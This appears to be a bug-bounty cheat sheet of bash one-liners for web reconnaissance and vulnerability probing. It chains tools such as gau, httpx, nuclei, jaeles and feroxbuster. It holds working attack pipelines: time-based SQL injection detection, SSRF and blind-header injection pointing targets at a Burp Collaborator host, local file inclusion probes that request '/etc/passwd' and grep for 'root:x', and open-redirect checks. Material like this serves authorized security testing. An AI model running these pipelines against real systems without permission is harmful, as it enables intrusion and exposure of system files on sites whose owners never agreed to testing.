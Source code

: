 ```bash
```
**SQLi-TimeBased scanner**
```bash
gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done
```
**Recon to search SSRF Test**
```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```
**Using shodan & Nuclei**
```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```
```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```
**if we don't have chaos api_key**
```bash
cat domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s ~/Tools/jaeles-signatures -u @
```

**Check Blind ssrf in Header,Path,Host & check xss via web cache poisoning.**
```bash
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotort'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotort'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotort'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotort HTTP/1.1 ""\n";done\
```
**Local File Inclusion**
```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
**Open-redirect**
```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
**Directory Listing**
**(Feroxbuster) common command**
```bash
feroxbuster -u https://target.com --insecure -d 1 -e -L 4 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```
**(Feroxbuster) Multiple values**
```bash
feroxbuster -u http://127.1 -x pdf -x js,html -x php txt json,docx
```
**(Feroxbuster) Read urls from STDIN; pipe only resulting urls out to another tool**
```bash
cat targets | ./feroxbuster --stdin --silent -s 200 301 302 --redirects -x js | fff -s 200 -o js-files
```
**search javascript file**
```bash
gau -subs DOMAIN |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt
```
**Uncover**
```bash
uncover -q http.title:"GitLab" -silent | httpx -silent | nuclei
uncover -q target -f ip | naabu
echo jira | uncover -e shodan,censys -silent
```